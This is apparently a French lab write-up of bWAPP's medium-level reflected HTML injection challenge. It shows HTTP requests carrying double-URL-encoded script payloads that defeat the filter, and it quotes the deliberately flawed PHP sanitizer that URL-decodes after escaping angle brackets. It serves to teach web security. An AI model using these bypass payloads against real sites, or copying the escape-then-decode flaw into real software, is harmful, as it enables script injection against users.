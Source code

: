 # Niveau "Medium"

## Exploitation

L'affichage du prénom et du nom s'effectue ici de la même manière au sein d'une balise `<div></div>` :&#x20;

![Formulaire et affichage du nom et prénom de l'utilisateur](<../../../../../.gitbook/assets/image (17).png>)

Dont voici la requête :&#x20;

```http
GET /bWAPP/htmli_get.php?firstname=prenom%5Blvl+medium%5D&lastname=nom%5Blvl+medium%5D&form=submit HTTP/1.1
Host: 192.168.56.116
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: PHPSESSID=41a2ae9ea948edd613914b6d27214575; security_level=1
Connection: close
```

L'affichage des paramètres d'URL se faire directement au sein de la balise `<div></div>` contenant également le formulaire :&#x20;

```html
<div id="main">
  <h1>HTML Injection - Reflected (GET)</h1>
  <p>Enter your first and last name:</p>
  <form action="/bWAPP/htmli_get.php" method="GET">
    <p>
      <label for="firstname">First name:</label><br />
      <input type="text" id="firstname" name="firstname">
    </p>
    <p>
      <label for="lastname">Last name:</label><br />
      <input type="text" id="lastname" name="lastname">
    </p>
    <button type="submit" name="form" value="submit">Go</button>  
  </form>
  <br />
  Welcome prenom[lvl medium] nom[lvl medium]
</div>
```

Cela oblige donc à passer par l'insertion de nouvelles balises afin d'injecter du contenu. Dans ce niveau de difficulté, aucune balise ne semble être interprétée par l'application, que cela soit le classique `<script></script>` :&#x20;

![Tentative d'injection des balises \<script>\</script>](<../../../../../.gitbook/assets/image (3).png>)

L'exécution de Javascript dans un attribut HTML :&#x20;

![Tentative d'injection avec attribut HTML onerror](<../../../../../.gitbook/assets/image (20).png>)

Ou également l'utilisation de balises customs :&#x20;

![Tentative d'injection avec des balises customs](<../../../../../.gitbook/assets/image (18).png>)

Pour réussir ce challenge il va donc falloir identifier un moyen de transmettre l'information sous une autre forme mais qui sera tout de même interprétée par l'application. Après plusieurs tentatives, l'encodage URL de l'injection semble fonctionner :&#x20;

```http
GET /bWAPP/htmli_get.php?firstname=%253c%2573%2563%2572%2569%2570%2574%253e%2561%256c%2565%2572%2574%2528%2530%2529%253c%252f%2573%2563%2572%2569%2570%2574%253e&lastname=%253c%2573%2563%2572%2569%2570%2574%253e%2561%256c%2565%2572%2574%2528%2531%2529%253c%252f%2573%2563%2572%2569%2570%2574%253e&form=submit HTTP/1.1
Host: 192.168.56.116
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: PHPSESSID=b6b6991fd6ae6e9926d4e8dab4692f15; security_level=1
Connection: close
```

![L'encodage URL de l'injection semble permettre de contourner la protection mise en place par l'application](<../../../../../.gitbook/assets/image (9).png>)

## Analyse du code source

Après avoir testé que les paramètres sont bien présents, l'affichage s'effectue grâce à un simple `echo` :

{% code title="htmli_get.php" %}
```php
if(isset($_GET["firstname"]) && isset($_GET["lastname"])) {
  $firstname = $_GET["firstname"];
  $lastname = $_GET["lastname"];

  if($firstname == "" or $lastname == "") {
    echo "<font color=\"red\">Please enter both fields...</font>";
  }
  else {
    echo "Welcome " . htmli($firstname) . " " . htmli($lastname);
  }
}
```
{% endcode %}

Les données sont au préalable traitées par la méthode `htmli()` permettant de gérer la difficulté du niveau sélectionné :

{% code title="htmli_get.php" %}
```php
function htmli($data) {

  switch($_COOKIE["security_level"]) {
    case "0" :
      $data = no_check($data);
      break;
    case "1" :
      $data = xss_check_1($data);
      break;
    case "2" :
      $data = xss_check_3($data);
      break;
    default :
      $data = no_check($data);
      break;
  }

  return $data;
}
```
{% endcode %}

Le level "Medium" correspond à la valeur 1, c'est à dire ici à l'exécution de la méthode `xss_check_1()` :&#x20;

{% code title="functions_external.php" %}
```php
function xss_check_1($data) {
    // Converts only "<" and ">" to HTLM entities
    $input = str_replace("<", "&lt;", $data);
    $input = str_replace(">", "&gt;", $input);

    // Failure is an option
    // Bypasses double encoding attacks
    // <script>alert(0)</script>
    // %3Cscript%3Ealert%280%29%3C%2Fscript%3E
    // %253Cscript%253Ealert%25280%2529%253C%252Fscript%253E
    $input = urldecode($input);

    return $input;
}
```
{% endcode %}

La fonction remplace les caractères `<` et `>` par leur équivalent en entité HTML, soit respectivement `&lt` et `&gt`, rendant impossible l'injection de balises HTML. La ligne 12, par contre, effectue un décodage URL avant de retourner la valeur pour affichage. Le contournement ici sera donc d'encoder URL l'injection (en fait à minima les caractères `<` et `>`) qui sera décodée par la fonction `xss_chech_1()`:

```http
GET /bWAPP/htmli_get.php?firstname=%253cscript%253ealert%280%29%253c%2Fscript%253e&lastname=%253cscript%253ealert%281%29%253c%2Fscript%253e&form=submit HTTP/1.1
Host: 192.168.56.116
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: PHPSESSID=1596dd4de4ad3324f300dfed9d8523f5; security_level=1
Connection: close
```

![L'encodage URL des caractères < et > permet la réussie de l'injection](<../../../../../.gitbook/assets/image (15).png>)
